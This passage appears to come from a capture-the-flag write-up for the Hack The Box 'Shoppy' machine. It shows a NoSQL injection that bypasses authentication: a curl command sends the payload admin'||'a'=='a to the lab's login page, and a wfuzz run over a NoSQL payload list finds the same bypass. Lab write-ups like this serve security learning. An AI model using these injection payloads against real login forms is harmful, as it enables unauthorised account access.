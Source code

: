 We can check it with curl as well, make sure you escape the apostrophe's:

```sh
┌──(root㉿kali)-[~/htb/shoppy]
└─# curl --data-binary $'username=admin\'||\'a\'==\'a&password=admin' http://shoppy.htb/login
Found. Redirecting to /admin
```

We could have used wfuzz instead of Burp to look for the NoSQLi if we had wanted as well:

```sh
┌──(root㉿kali)-[~/htb/shoppy]
└─# wfuzz -v -c -z file,/usr/share/seclists/Fuzzing/Databases/NoSQL.txt -d "username=adminFUZZ&password=admin" http://shoppy.htb/login
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://shoppy.htb/login
Total requests: 22
==============================================================================================================
ID         C.Time  Response  Lines  Word  Chars  Server         Redirect                       Payload
==============================================================================================================
000000019: 0.084s  400       0 L    2 W   11 Ch  nginx/1.23.1                                  "[$ne]=1"
000000022: 0.138s  302       0 L    4 W   51 Ch  nginx/1.23.1   /login?error=WrongCredentials  "{$nin: [""]}}"
000000018: 0.142s  302       0 L    4 W   51 Ch  nginx/1.23.1   /login?error=WrongCredentials  "{"$gt": ""}"
000000006: 0.036s  302       0 L    4 W   51 Ch  nginx/1.23.1   /login?error=WrongCredentials  "{ $ne: 1 }"
000000012: 0.032s  302       0 L    4 W   28 Ch  nginx/1.23.1   /admin                         "' || 'a'=='a"
```

From the Wfuzz output we can see the last payload worked and we were redirected to /admin just like it did with Burp.

If we login through Firefox we see a simple single page app:

![shoppy-app](/assets/images/2023-01-22-14-58-33.png)

